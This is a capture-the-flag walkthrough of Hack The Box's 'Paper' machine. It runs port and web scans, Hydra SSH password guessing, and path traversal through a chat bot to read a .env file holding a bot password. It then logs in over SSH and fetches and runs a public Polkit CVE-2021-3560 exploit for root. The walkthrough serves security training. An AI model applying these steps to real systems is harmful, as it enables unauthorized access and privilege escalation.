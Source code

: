 # Paper
### A demonstration walkthrough of a pen test process using HTB's Paper with some normal dead ends as an example.  

*Note* /etc/hosts appended with "10.10.11.143 paper.htb"
Basic scan of all ports 
```
nmap -p- paper.htb
```

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports  
```
ports=$(nmap -p- --min-rate=1000 -T4 paper.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports paper.htb
nikto -h paper.htb
```
Interesting Results (NMAP):  
- Running OpenSSH 8.0 and Apache httpd 2.4.37 on CentOS  
Interesting Results (NIKTO):   
- OSVDB-877: TRACE and missing common protection headers.  Set this aside unless we user traffic to escalate.
- Uncommon header 'x-backend-server' found, with contents: office.paper
- Retrieved x-powered-by header: PHP/7.2.24

**DEAD END:** Browsing site shows only the default install page, nothing interesting in source, HTTPS: fails cert validation.  
**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.  
```
echo 'root\nuser\nadmin\nadministrator\ndevelopment\ntest\napache\noffice\npaper' > paper.htb.usernames
echo 'password\nPassword\nPassw0rd\nPassw0rd!' > paper.htb.passwords
hydra -L paper.htb.usernames -P paper.htb.passwords -e nsr ssh://paper.htb
```
**DEAD END:** Using dirbuster results were only standard Apache files

Added backend server to /etc/hosts:  "10.10.11.143 office.paper"
```
nikto -h office.paper
```
Interesting results:
- Link to WordPress API docs: https://api.w.org
- 'x-redirect-by' found, with contents: WordPress

Browsed "office.paper" added a few more possible username to hyrda files.  Following chat noticed command about unsafe draft content.

On Parrot
```
docker run -it --rm wpscanteam/wpscan --url http://office.paper
```
On KALI
```
wpscan --url http://office.paper
```
WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).

On Parrot searchsploit needs to be installed
```
git clone https://gitlab.com/exploit-database/exploitdb.git /usr/share/exploitdb
ln -sf /usr/share/exploitdb/searchsploit /usr/local/bin/searchsploit
```

```
searchsploit wordpress 5.2.3
cat /usr/share/exploitdb/exploits/multiple/webapps/47690.md
```

Browsed to http://office.paper/?static=1  
Draft leads to a chat server and secret registration page: http://chat.office.paper/register/8qozr226AhkCHZdyY  

Added "10.10.11.143 chat.office.paper" to /etc/hosts
**DEAD END:** Nikto and dirbuster on discovered hosts didn't yield any new results

I read the blog posts. Fun "The Office" references lots of names to add to Hydra lists.
Dwight setup a bot, seems like he is the admin.

The bot will take commands.
**DEAD END** Trying command injection, nothing I tried worked.  Seems I'm limited to 'list' and 'file' commands
**Comment"" First pass on enum drew a blank beyond the fact that Dwight owns the bot.

#### Rabbit Hole
Should Dwight + "The Office" + password be the way?
Outtakes:   
[YouTube](https://www.youtube.com/watch?v=yXPrp0AAvZ4)  
[YouTube](https://www.youtube.com/watch?v=dtGCC-DleX0)  
[YouTube](https://www.youtube.com/watch?v=HkmJFjbsIgM)  
[YouTube](https://www.youtube.com/watch?v=8zfNfilNOIE)  
[YouTube](https://www.youtube.com/watch?v=F1wodhJ-qFo)  

Geez, lots of ideas, lots of real bad password practices. Hydra failed, zero traction.

#### Better enum 
Googled RocketChat configuration led to using environment variables. 
A second pass of enum landed on "file ../../dwight/hubot/.env"  
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23  
Added to hydra files

```
hydra -L paper.htb.usernames -P paper.htb.passwords -e nsr ssh://paper.htb
```
[DATA] attacking ssh://paper.htb:22/
[22][ssh] host: paper.htb   login: dwight   password: Queenofblad3s!23
```
ssh dwight@paper.htb
```

### USER SUCCESS!

# Try LinPEAS to find escalation
[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
```
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
scp linpeas.sh dwight@office.paper:linpeas.sh
```

Running linpeas.sh shows vulnerables to  CVE-2021-3560

```
curl https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py > exploit.py
scp exploit.py dwight@paper.htb:.
ssh dwight@paper.htb
```
```
python3 exploit.py
```

### ROOT SUCCESS!
